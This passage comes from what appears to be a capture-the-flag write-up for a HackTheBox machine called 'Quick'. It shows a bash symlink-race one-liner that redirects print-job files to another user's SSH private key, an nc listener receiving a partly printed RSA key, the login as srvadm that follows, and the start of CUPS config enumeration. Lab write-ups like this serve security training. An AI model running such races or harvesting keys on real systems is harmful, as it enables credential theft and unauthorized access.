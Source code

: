 ```php
```

It appears that a job is created and this creates a file within the `/var/www/jobs` folder. Afterwards, it seems to send a request to the printer (us) and sends it the contents of the file. This is another race condition exploit, as we can replace the within the `/var/www/jobs` with a symlink to another file, like the `id_rsa` file of the `srvadm` user.

Since this is another race condition exploit, it's best to have a bash script running in the `/var/www/jobs` folder, which we conveniently have write access to.

We can use this one-liner here:

{% code overflow="wrap" %}
```bash
while true; do for fn in /var/www/jobs/*; do rm -f $fn; ln -s /home/srvadm/.ssh/id_rsa $fn; done; done

┌──(kali㉿kali)-[~/htb/quick]
└─$ nc -lvnp 9100
listening on [any] 9100 ...
connect to [10.10.14.13] from (UNKNOWN) [10.129.85.76] 59722
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEAutSlpZLFoQfbaRT7O8rP8LsjE84QJPeWQJji6MF0S/RGCd4P
AP1UWD26CAaDy4J7B2f5M/o5XEYIZeR+KKSh+mD//FOy+O3sqIX37anFqqvhJQ6D
<TRUNCATED>
```
{% endcode %}

Worked! Now we can use this private key to gain access to `srvadm`.&#x20;

```
srvadm@quick:~$ id
uid=1001(srvadm) gid=1001(srvadm) groups=1001(srvadm),999(printers)
```

### Root Creds

We are part of the `printers` group, which might have unique permissions. Googling about this group leads to CUPS, which is a printing system used by Arch Linux distros. We can use `locate` to find all files related to `cups`.

```
srvadm@quick:/usr$ locate cups
/etc/apparmor.d/abstractions/cups-client
/home/srvadm/.cache/conf.d/cupsd.conf
/home/srvadm/.cache/logs/cups.log
/usr/lib/x86_64-linux-gnu/libcups.so.2
```

We see some in the home directory of the user.&#x20;

```
srvadm@quick:~/.cache/conf.d$ ls -la
total 20
drwxr-xr-x 2 srvadm srvadm 4096 Mar 20  2020 .
drwx------ 5 srvadm srvadm 4096 Mar 20  2020 ..
-rw-r--r-- 1 srvadm srvadm 4569 Mar 20  2020 cupsd.conf
-rw-r--r-- 1 srvadm srvadm 4038 Mar 20  2020 printers.conf
```
